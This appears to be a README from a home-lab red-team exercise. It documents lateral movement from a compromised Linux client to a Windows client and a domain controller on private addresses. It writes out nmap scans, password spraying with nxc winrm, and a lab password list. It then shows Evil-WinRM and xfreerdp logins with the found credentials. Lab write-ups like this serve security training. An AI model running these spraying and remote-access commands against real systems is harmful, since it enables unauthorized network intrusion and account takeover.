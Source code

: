 # Lateral Movement & Privilege Escalation

## 🏴 Objective
After gaining initial access to **janed@linux-client**, the attacker attempts to move laterally across the network and escalate privileges to gain control over key systems, including the **Windows Client** and ultimately the **Domain Controller**.

---

## 🚀 Steps Taken

### 1️⃣ Enumeration on the Compromised Machine (janed@linux-client)
```bash
cat /etc/os-release  # Check OS version
hostname             # Identify the machine name
```

### 2️⃣ Network Scanning for More Targets
On another terminal, scanning the **Windows Client (10.0.0.100)**:
```bash
nmap -p1-1000 -sV -Pn 10.0.0.100
```
Scanning the **Linux Client (10.0.0.101)**:
```bash
nmap -Pn -p5985,5986 -sV 10.0.0.101  # Checking for WinRM services
```
Results show **WinRM (Windows Remote Management) is filtered**.

---

## 🔐 Password Spraying Attack
Since WinRM is present, the attacker attempts password spraying.

1. Create `users.txt` and `pass.txt` containing potential credentials:
   ```
   users.txt:
   Administrator
   
   pass.txt:
   @Deeboodah1!
   password123!
   admin@123
   ```
2. Perform password spraying with **nxc winrm**:
   ```bash
   nxc winrm 10.0.0.100 -u users.txt -p pass.txt
   ```
   ✅ A working credential is found: **Administrator / @Deeboodah1!**

3. Use **Evil-WinRM** to access the Windows Client as Administrator:
   ```bash
   evil-winrm -i 10.0.0.100 -u Administrator -p @Deeboodah1!
   ```
   📌 This grants **PowerShell administrator access** to the Windows Client.

---

## 🏰 Gaining Access to the Domain Controller

1. Scan the **Domain Controller (10.0.0.5)** for open services:
   ```bash
   nmap -Pn 10.0.0.5
   ```
   ✅ Port `3389/tcp` (Microsoft Remote Desktop) is open.

2. Use **xfreerdp** to establish an RDP session to the **Domain Controller**:
   ```bash
   xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com
   ```
   ✅ A new **RDP window** pops up, providing full control over the **Domain Controller**!

---

## 🎯 Summary
The attacker successfully:
- **Escalated privileges** from janed@linux-client to Administrator on Windows Client.
- **Laterally moved** to the Windows Client using WinRM.
- **Compromised the Domain Controller** using **RDP credentials**.

🔜 Next Phase: **Data Exfiltration & Persistence** 📂💀

